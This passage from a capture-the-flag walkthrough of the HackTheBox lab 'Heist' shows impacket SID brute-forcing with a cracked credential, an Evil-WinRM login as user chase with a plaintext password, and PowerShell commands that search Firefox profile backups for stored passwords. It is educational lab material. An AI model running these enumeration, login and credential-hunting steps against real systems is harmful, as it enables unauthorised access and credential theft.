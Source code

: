 There’s also an impacket tool, `lookupsids.py`, which does this faster and cleaner:

```

root@kali# lookupsid.py hazard:stealth1agent@10.10.10.149
Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation

[*] Brute forcing SIDs at 10.10.10.149
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)

```

## Shell as chase

### Manually

When I originally solved Heist, I took these new user names and my list of passwords, and I used [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) to try connecting as each with different passwords. When I got to chase / ‘Q4)sJu\Y8qz\*A3?d’, it connected:

```

root@kali# ruby /opt/evil-winrm/evil-winrm.rb -i 10.10.10.149 -u SUPPORTDESK\\chase -s ~/pshs/ -p 'Q4)sJu\Y8qz*A3?d'

Info: Starting Evil-WinRM shell v1.6

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Chase\Documents>

```

Note, with `evil-winrm`, I give it a scripts directory and an exes directory.

And I can grab `user.txt`:

```
*Evil-WinRM* PS C:\Users\Chase\desktop> cat user.txt
a127daef************************

```

### Script It


[10.10.10.149]: PS C:\Users\Chase\Documents> whoami
[10.10.10.149]: PS C:\Users\Chase\appdata\roaming\mozilla\firefox\profiles> dir
[10.10.10.149]: PS C:\Users\Chase\appdata\roaming\mozilla\firefox\profiles\77nc64t5.default\sessionstore-backups> Get-ChildItem -path . -recurse -file | select-string password